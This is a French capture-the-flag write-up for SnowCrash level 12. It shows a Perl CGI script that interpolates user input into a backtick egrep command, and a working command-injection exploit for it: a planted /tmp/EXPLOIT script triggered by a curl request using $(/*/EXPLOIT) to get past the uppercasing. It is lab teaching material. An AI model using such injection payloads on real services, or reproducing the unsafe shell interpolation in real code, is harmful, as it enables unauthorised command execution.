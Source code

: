 Le niveau 12 comprend un script Perl tournant sur un serveur local (localhost:4646) qui traite des entrées via des requêtes HTTP GET. 
L'objectif est d'exploiter le script pour obtenir les informations d'identification du niveau suivant.

## Le Script

```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```

## Analyse

- Le script reçoit deux paramètres : `x` et `y`.
- Le paramètre `x` est converti en majuscules.
- Le script utilise `egrep` pour chercher dans `/tmp/xd`, permettant une injection de commande.

## Exploitation

### Étapes

1. **Créer un fichier d'exploitation** :
    ```sh
    echo 'getflag > /tmp/flag' > /tmp/EXPLOIT
    chmod +x /tmp/EXPLOIT
    ```

2. **Envoyer l'exploitation** :
    ```sh
    curl 'http://localhost:4646/?x=$(/*/EXPLOIT)'
    ```

3. **Récupérer le flag** :
    ```sh
    cat /tmp/flag
    ```

### Exemple d'exécution

```sh
level12@SnowCrash:~$ echo 'getflag > /tmp/flag' > /tmp/EXPLOIT
level12@SnowCrash:~$ chmod +x /tmp/EXPLOIT
level12@SnowCrash:~$ curl 'http://localhost:4646/?x=$(/*/EXPLOIT)'
level12@SnowCrash:~$ cat /tmp/flag
```

En suivant ces étapes, vous pouvez exploiter le script pour récupérer le mot de passe du niveau suivant. 

## Conclusion

Cette exploitation démontre une injection de commande via une entrée utilisateur non sécurisée. 
La validation et la sécurisation des entrées utilisateur sont cruciales pour prévenir de telles vulnérabilités.
